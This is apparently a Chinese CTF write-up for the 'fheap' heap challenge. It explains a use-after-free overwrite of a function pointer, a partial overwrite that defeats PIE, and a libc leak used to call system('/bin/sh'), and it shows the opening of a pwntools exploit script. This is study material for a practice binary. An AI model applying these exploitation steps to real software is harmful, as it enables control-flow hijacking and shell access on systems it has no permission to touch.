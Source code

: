     create(4, 'aa')  --> id = 0, 假定堆块地址: 0x5010;
    create(4, 'bb')  --> id = 1, 假定堆块地址: 0x5040
    delete(1)
    delete(0)
    create(0x18, 'a' * 0x18) --> id = 0;

注意: 最后一次create(0x18, 'a' * 0x18 ), malloc两个堆块, 分别为0x5010, 0x5040, 其中0x5040存放的是字符串内容. 0x5010存放着0x5040地址, 如下: .

    0x5000:     0x0000000000000000      0x0000000000000031
    0x5010:     0x0000000000005040      0x0000000000000000
    0x5020:     0x0000000000000018      0x0000000000000d6c(freeShort)
    0x5030:     0x0000000000000000      0x0000000000000031
    0x5040:     0x6161616161616161      0x6161616161616161
    0x5050:     0x6161616161616161      0x0000000000000d52(freeLong)

假如此时, 我们delete(1), 关键代码中的Strings[1].str ==> 0x6161616161616161, 为真. 就会执行0x5058的函数(freeLong).
由此, 我们可以有这样的设想: create(0x20, content), content中的内容可以覆盖1中的freeLong函数. delete(1), 就可以修改程序执行的流程.
**我们还是靠UAF把一些函数（puts）覆盖掉freelong，然后打印出put函数的地址，在计算与puts的libc基址的偏移，再获得system函数后,将free地址覆盖为`system`, 输入`/bin/sh`, 释放.**

## 问题及解决

程序开了pie保护，地址会随即化

![image-20220316165549024](https://s2.loli.net/2022/03/27/i7KgV1c9PL53pMd.png)

像 call free 的地址会在运行中随机化，我们要找的是和它相近的

![image-20220316165644849](https://s2.loli.net/2022/03/27/13Wlw4njzrsS5xH.png)

因为这种函数我们只需覆盖一个字节即可，并且倒数第二个字节的高位地址（这里是0D的0）会随机化

## EXP 

ROPgadget查看可使用的pop

![image-20220317111323474](https://s2.loli.net/2022/03/27/6HZsrSM4eKqLRbP.png)

查找文件plt函数所有地址

![image-20220317111403379](https://s2.loli.net/2022/03/27/C4YTEbO1Z8Qs6tc.png)

```
#coding:utf8
from pwn import *
from ctypes import *
context.log_level='debug'
sh=process('./fheap')
elf=ELF('./fheap')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def create(size,string):
	sh.sendlineafter('3.quit','create ')
	sh.sendlineafter('size:',str(size))
	sh.sendlineafter('str:',string+'\x00')
def delete(idx):
    sh.recvuntil("quit")
    sh.sendline("delete ")
    sh.recvuntil('id:')
    sh.send(str(idx)+'\n')
    sh.recvuntil('sure?:')
    sh.send('yes '+'\n')

create(15,'aaa')
create(15,'bbb')
create(15,'ccc')
```